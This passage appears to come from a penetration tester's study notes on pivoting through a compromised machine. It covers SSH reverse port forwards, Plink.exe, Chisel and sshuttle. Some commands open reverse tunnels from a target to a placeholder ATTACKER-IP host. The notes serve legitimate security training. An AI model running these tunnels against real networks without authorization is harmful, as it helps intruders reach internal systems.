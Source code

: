 All that's left is to ==transfer the PRIVATE KEY to the TARGET machine!== This is not the 'best practice' as an attacker, which is why we created these steps to generate 'throw-away' SSH keys. Make sure to delete these keys once the engagement is over!

Once the PRIVATE KEY is transferred, we can connect back with a reverse port forward using this command on the COMPROMISED-TARGET-IP machine:

```bash
ssh -R 8989:INTERNAL-TARGET-IP:INTERNAL-TARGET-PORT USER@ATTACKER-IP -i KEYFILE -fN
```

### Closing pivoting connections

To close any of these connections, type ```ps aux | grep ssh``` into the terminal of the machine that created the connection, find the Process ID and ```sudo kill PID``` .

### Plink.exe

is a Windows command line version of the PuTTY SSH client.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

```cmd
cmd.exe /c echo y | .\plink.exe -R ATTACKER-PORT:INTERNAL-TARGET-IP:INTERNAL-TARGET-PORT user@ATTACKER-IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:  

```puttygen KEYFILE -o OUTPUT_KEY.ppk```

***Plink.exe is notorious for going out-of-date quickly - so make sure to update!

### Socat (incomplete)
### Chisel (incomplete)

Set up a tunnelled proxy or port forward through a compromised system, regardless of the existence of SSH access. Written in Golang and can be easily compiled for any system.

**You must have an appropriate copy of the chisel binary on BOTH the attacking machine and compromised machine!

### Sshuttle

uses an SSH connection to create a tunnelled proxy that acts like a new interface. 

In short, it simulates a VPN, allowing us to route our traffic through the proxy _without the use of proxychains_ (or an equivalent). We can just directly connect to devices in the target network as we would normally connect to networked devices. 

As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. ==We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server.==

**Only works on LINUX hosts! It also requires access to the compromised server via SSH, and Python also needs to be installed on the server!** 



